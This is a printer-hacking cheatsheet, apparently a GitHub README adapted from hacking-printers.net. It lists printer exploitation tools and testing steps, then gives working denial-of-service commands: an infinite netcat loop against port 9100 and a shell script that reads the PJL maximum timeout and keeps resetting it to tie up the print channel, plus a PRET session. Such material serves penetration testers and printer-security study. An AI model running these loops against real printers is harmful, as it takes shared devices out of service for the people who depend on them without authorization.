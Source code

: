 # printer-hacking

> Adapted from http://hacking-printers.net/

## Printer Hacking Tools

- [PRET](https://github.com/RUB-NDS/PRET) - Printer Exploitation Toolkit
- [Praeda](https://github.com/percx/Praeda) - Automated Printer Data Harvesting Tool
- [PFT & Hijetter](http://www.phenoelit.org/hp/) - One of the Early Network Printer Exploitation Tools
- [BeEF](https://github.com/beefproject/beef) - Browser Exploitation Framework that can be used for performing [Cross-site printing](http://hacking-printers.net/wiki/index.php/Cross-site_printing)

## Typical Steps

- perform [generic network assessment](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
- information gathering with Praeda
- use the [cheatsheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet) to find and exploit flaws
- use PRET for fun & profit

## Cheatsheet

### Denial of Service

#### [Transmission Channel](http://hacking-printers.net/wiki/index.php/Transmission_channel)

- TCP Protocol
- If print jobs are processed in series – which is assumed for most devices – only one job can be handled at a time.
- Setting high timeout value can effectively be used to enhance attack.
- Simple way with nc: `while true; do nc printer 9100; done`
- Set maximum timeout value as in following shell script:

```shell
# get maximum timeout value with PJL
MAX="`echo "@PJL INFO VARIABLES" | nc -w3 printer 9100 |\
  grep -E -A2 '^TIMEOUT=' | tail -n1 | awk '{print $1}'`"
# connect and set maximum timeout for current job with PJL
while true; do echo "@PJL SET TIMEOUT=$MAX" | nc printer 9100; done
```
- With PRET, a sample session to get timeout values would look like below:

```shell
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> env timeout
TIMEOUT=15 [2 RANGE]
       5
       300
```
